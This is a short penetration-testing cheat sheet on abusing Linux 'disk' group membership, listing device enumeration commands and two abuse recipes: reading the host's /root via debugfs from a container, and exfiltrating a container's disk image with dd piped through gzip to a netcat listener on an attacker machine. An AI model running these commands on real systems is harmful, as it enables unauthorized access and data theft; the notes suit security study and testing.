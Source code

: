```yaml
---
title: "disk group"
date: 2024-7-2
tags: ["disk", "mount", "backup", "privilege read", "container", "lvm"]
---
```


### Basic

```console
# Show devices
lsblk
```

```console
# Device attributes
blkid
```

```console
# Show swap on blk
swapon -s
```

```console
# Filesystem info
cat /etc/fstab
```

---

### Abuse #1: Read host's filesystem from container (root)

#### 1. Open target device

```console
debugfs /dev/sda1
```

```console
# Read
ls /root
```

---

### Abuse #2: Read container's filesystem from host

#### 1. Show LVM mappings

```console
ls -l /dev/mapper/
```

#### 2. Exfil container's filesystem

```console
# In our local machine
nc -lvnp <LOCAL_PORT> > dm-0.gz
```

```console
# Target container rootfs, e.g. dm-0
dd if=/dev/dm-0 | gzip -1 - | nc <LOCAL_IP> <LOCAL_PORT>
```

#### 3. Mount locally

```console
# Extract dm-0
gunzip dm-0.gz
```

```console
# Mount the filesystem
sudo mount dm-0-orig /mnt/ 
```

```console
# Read
ls /mnt/root/
```

<small>*Note: can take a long time to transfer*</small>
